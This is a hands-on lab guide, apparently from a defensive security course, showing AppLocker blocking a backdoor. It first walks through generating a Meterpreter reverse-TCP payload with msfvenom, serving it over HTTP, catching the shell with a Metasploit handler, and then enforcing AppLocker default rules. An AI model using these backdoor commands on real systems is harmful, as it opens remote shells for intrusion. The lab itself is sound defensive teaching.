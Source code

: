 
# AppLocker


Applocker Instructions:

Let’s see what happens when we do not have AppLocker running.  We will set up a simple backdoor and have it connect back to the Ubuntu system.  Remember, the goal is not to show how we can bypass EDR and Endpoint products.  It is to create a simple backdoor and have it connect back.

Thankfully, we have a couple of scripts that greatly simplify this process.  Please make sure both your Windows and your Linux systems are running.

Let’s get started by opening a Terminal as Administrator

![](attachments\Clipboard_2020-06-12-10-36-44.png)

![](attachments\Clipboard_2020-06-12-12-35-15.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments\Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](attachments\Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter.  



Please note that my adaptor is called eth0 and my IP address is 172.26.19.133.   Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:



Now, run the following commands to start a simple backdoor and backdoor listener: 

$ `sudo su -`
Please note, the adhd password is adhd.

/#`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

/#`cd /tmp`

/#`ls -l TrustMe.exe`

/#`python -m SimpleHTTPServer 8000 &`

It should look like this:

![](attachments\Clipboard_2020-07-09-15-52-24.png)

Now, let's start the Metasploit Handler.  You will have to hit Enter to get your prompt back.


root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`
msf5 > `use exploit/multi/handler`
msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`
Remember, your IP will be different!
msf5 exploit(multi/handler) > `exploit`

It should look like this:

![](attachments\Clipboard_2020-06-12-12-46-10.png)


Now, let’s surf to your Linux system, download the malware and run it!

Simply open an edge browser to `http://<YOUR LINUX IP>:8000`

![](attachments\Clipboard_2020-07-09-15-54-29.png)

Remember! Your IP will be different!!

Now, let's download and run the TrustMe.exe file!

![](attachments\Clipboard_2020-07-09-15-55-05.png)
You should simply click and run the program from the browser.

If you get an alert, just select run the application.

Back at your Ubuntu prompt, you should have a metasploit session!

![](attachments\Clipboard_2020-06-12-12-55-11.png)


Now, let’s stop this from happening!

First, let’s configure AppLocker.  To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo)  then type Local Security.  It should bring up a menu like the one below, please select Local Security Policy.

![](attachments\Clipboard_2020-06-12-12-55-55.png)


Next, we will need to configure AppLocker.  To do this, please go to Security Settings > Application Control Policies and  then AppLocker.


![](attachments\Clipboard_2020-06-12-12-57-02.png)



In the right hand pane, you will see there are 0 Rules enforced for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to brick a system.

![](attachments\Clipboard_2020-06-12-12-58-38.png)


Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”


![](attachments\Clipboard_2020-06-12-12-59-57.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 


![](attachments\Clipboard_2020-06-12-13-00-24.png)

Next, we need to enforce the rules:


To do this you will need to select ApLocker on the far left pane.  Then, you will need to select Configure rule enforcement.  This will open a pop-up, you will need to check Configured for each set of rules

![](attachments\Clipboard_2020-06-23-10-45-07.png)



Now, we will need to start the Application Identity service.  This is done through pressing the Windows key and typing Services.  This will bring up the Services App.  Please select that and then double-click “Application Identity.”

![](attachments\Clipboard_2020-06-12-13-00-54.png)

Once the Application Identity Properties dialog is open, please press the Start button.  This will start the service.

![](attachments\Clipboard_2020-06-12-13-01-27.png)


Next, log out as ADHD and log back in as allowlist.  

You can do this easily by selecting the Windows icon and then the little wite user icon:

![](attachments\Clipboard_2020-06-15-09-00-39.png)

The password is ADHD.

![](attachments\Clipboard_2020-06-15-08-46-49.png)



Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![](attachments\Clipboard_2020-06-15-08-48-09.png)

You will see that most of the .exe files will generate an error.




Now, let's surf to your Linux system, download the malware and try to run it again.








You should get an error.

To finish this lab, simply restart your class VM and log in as ADHD.






